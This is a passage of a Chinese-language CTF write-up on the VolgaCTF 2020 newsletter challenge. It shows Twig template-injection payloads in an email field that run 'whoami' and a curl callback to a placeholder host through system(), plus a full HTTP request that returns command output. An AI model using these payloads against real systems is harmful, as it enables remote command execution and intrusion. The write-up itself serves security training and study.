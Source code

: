但是

```php
"{{app.request.query.filter(0,'whoami',1024,{'options':'system'})}}".""@sometimenaive.com
```

上面的payload远程爆500，可能是发邮件的时候GG了。应该就是发邮件的时候有问题

```php
"{{app.request.query.filter(0,'curl${IFS}x.x.x.x:8090',1024,{'options':'system'})}}".""@sometimenaive.com
```

上面的payload虽然爆500但是还是可以接收到请求的。
[![img](assets/20200330133956-e3569f70-7248-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200330133956-e3569f70-7248-1.png)

上面是使用默认值给system传参数，也可以通过GET传参数的方式，这样就有回显了。

```http
POST /subscribe?0=whoami HTTP/1.1
Host: newsletter.q.2020.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: http://newsletter.q.2020.volgactf.ru
Connection: close
Referer: http://newsletter.q.2020.volgactf.ru/
Upgrade-Insecure-Requests: 1

email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@x.com
```

[![img](assets/20200330134010-ebc39884-7248-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200330134010-ebc39884-7248-1.png)
